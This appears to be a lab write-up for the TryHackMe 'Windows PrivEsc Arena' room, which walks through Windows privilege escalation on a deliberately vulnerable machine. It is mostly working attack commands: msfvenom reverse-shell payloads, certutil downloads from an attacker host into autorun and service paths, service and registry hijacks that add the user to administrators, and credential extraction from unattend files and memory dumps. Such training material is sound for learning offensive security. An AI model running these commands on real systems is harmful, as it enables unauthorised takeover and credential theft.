<div align="center">


</div>

## 📌 Overview

Windows PrivEsc Arena is a TryHackMe room built around a deliberately vulnerable Windows 7 machine. The entire point of the room is to practice every major Windows privilege escalation technique in one place — not just read about them, but actually run them against a real target. You RDP into the machine as a low-privilege user and work through each attack path using pre-installed tools.

> **Real-world mindset:** Everything here translates directly to a real shell. Anywhere you see RDP steps, mentally swap it to: you have a low-priv cmd/powershell shell via a reverse shell, not a desktop. The techniques are identical — only how you got in differs.

---

## 🛠 Tools Used

```

PowerUp                     → privilege escalation enumeration
WinPEAS                     → automated Windows enumeration
msfvenom                    → payload generation
metasploit (msfconsole)    → handler & exploits
certutil                    → file download
accesschk64                 → permission checks
wmic                        → system info & patch enumeration
reg                         → registry queries
sc                          → service control
icacls                      → file permissions

````

---

## 🎯 Starting Point — Enumeration First

Before you try anything, you enumerate. You never guess. Every technique in this room can be found automatically or manually before exploiting.

---

### Manual Enumeration (Always Run These)

```cmd
whoami
whoami /priv
whoami /groups

systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

wmic qfe list full
wmic qfe list full | findstr "3126587 3126593 3135174 3139914"

net users
net localgroup administrators

sc query
tasklist /SVC

echo %PATH%

dir /s /b C:\*.xml 2>nul | findstr /i "unattend sysprep"
dir /s /b C:\*.ini 2>nul
dir /s /b C:\*.config 2>nul
````

---

### Automated Enumeration — PowerUp

```powershell
powershell.exe -nop -ep bypass

. C:\Users\User\Desktop\Tools\PowerUp\PowerUp.ps1

Invoke-AllChecks
```

---

### WinPEAS

```cmd
certutil -urlcache -split -f http://YOUR_IP/winpeas.exe C:\Temp\winpeas.exe
C:\Temp\winpeas.exe
```

---

## 📍 Task 3 — Registry Escalation: Autorun

### What Is It?

Windows can automatically run programs when a user logs in. These are stored in registry autorun entries.

---

### Enumeration

```powershell
Invoke-AllChecks
```

```cmd
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

---

### Exploit

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe > program.exe
python3 -m http.server 80
```

```cmd
certutil -urlcache -split -f http://YOUR_KALI_IP/program.exe "C:\Program Files\Autorun Program\program.exe"
```

---

## 📍 Task 4 — AlwaysInstallElevated

### Check

```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```



---

### Exploit

```powershell
Write-UserAddMSI
msiexec /quiet /qn /i UserAdd.msi
```

---

## 📍 Task 5 — Service Escalation (Registry)

```cmd
accesschk64.exe /accepteula -uvwk HKLM\System\CurrentControlSet\Services\regsvc
```




---

### Exploit

```cmd
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f

sc start regsvc
```

---

## 📍 Task 6 — Service Binary Replacement

```cmd
wmic service get name,pathname,startmode
accesschk64.exe -wvu "C:\Program Files\File Permissions Service\filepermservice.exe"
```


---

### Exploit

```cmd
copy /y C:\Temp\x.exe "C:\Program Files\File Permissions Service\filepermservice.exe"

sc stop filepermsvc
sc start filepermsvc
```

---

## 📍 Task 7 — Startup Applications

```cmd
icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```



---

### Exploit

```cmd
certutil -urlcache -split -f http://YOUR_IP/startup.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\startup.exe"
```

---

## 📍 Task 8 — DLL Hijacking

```cmd
echo %PATH%
```

---

### Exploit

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f dll -o wlbsctrl.dll
```



```cmd
certutil -urlcache -split -f http://YOUR_IP/wlbsctrl.dll C:\Temp\wlbsctrl.dll
```

---

## 📍 Task 9 — Service binPath Abuse

```cmd
sc config daclsvc binpath= "net localgroup administrators user /add"

sc stop daclsvc
sc start daclsvc
```



---

## 📍 Task 10 — Unquoted Service Paths

```cmd
wmic service get name,pathname,startmode
```



---

### Exploit

```cmd
certutil -urlcache -split -f http://YOUR_IP/common.exe "C:\Program Files\Unquoted Path Service\common.exe"
```



---

## 📍 Task 11 — Hot Potato (Legacy)

```powershell
Import-Module Tater.ps1
Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
```



---

## 📍 Task 12 — Unattend Files

```cmd
dir /s C:\Windows\Panther\Unattend.xml
```



---

### Decode

```bash
echo cGFzc3dvcmQxMjM= | base64 -d
```

---

## 📍 Task 13 — Memory Dump Credentials

```bash
strings iexplore.DMP | grep "Authorization: Basic"
```



---

## 📍 Task 14 — Kernel Exploits

```cmd
systeminfo
wmic qfe list
```
---

### Metasploit

```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```



---

## 📌 Conclusion

Windows privilege escalation is not about guessing — it is about enumeration first, exploitation second. Every attack in this lab follows the same pattern:

1. Find misconfiguration
2. Confirm permissions
3. Identify execution context
4. Abuse trusted Windows behavior
5. Escalate to SYSTEM

---

This work is part of **FuzzRaiders**' structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability and methodological rigor.

Happy hacking 🚀

---

<div align="center">


</div>

